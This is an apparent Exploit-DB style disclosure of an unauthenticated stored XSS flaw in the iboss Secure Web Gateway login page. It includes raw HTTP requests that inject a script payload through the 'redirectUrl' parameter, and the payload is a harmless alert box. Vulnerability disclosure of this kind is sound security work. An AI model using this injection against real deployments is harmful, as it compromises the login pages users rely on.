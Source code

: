 # Exploit Title: iboss Secure Web Gateway - Stored Cross-Site Scripting (XSS)
#### Date: 4/4/2024
#### Exploit Author: modrnProph3t
#### Vendor Homepage: https://www.iboss.com
#### Version: < 10.2.0


## Description
A stored Cross Site Scripting (XSS) vulnerability was found in the iboss Secure Web Gateway product. The vulnerability is exploited by submitting a login attempt, intercepting the request, and adding a payload to the “redirectUrl” parameter before sending it to the server. After submitting the request, visiting the initial login page will cause the website to load, including the previously submitted payload.

This is an unauthenticated attack (credentials do not need to be valid) and the payload is stored on the server and included in every response to a GET request for the login page until a new POST request is made to the server without a payload included.

## Proof of Conept
1. Access the login portal located at /login


2. Submit login attempt and intercept the request

Example of unaltered request:
```
POST /user_login_submit HTTP/1.1
Host: <domain>
<--Headers Removed-->
  
userName=TEST&x=TEST&action=login&redirectUrl=
```


3. Insert XSS payload into the "redirectUrl" parameter
	
Example of request with inserted payload:
```
POST /user_login_submit HTTP/1.1
Host: <domain>
<--Headers Removed-->
		
userName=TEST&x=TEST&action=login&redirectUrl="><script>alert('XSS')</script>
```


4. After failed login attempt, return to the initial login page at the /login endpoint and observe payload execution
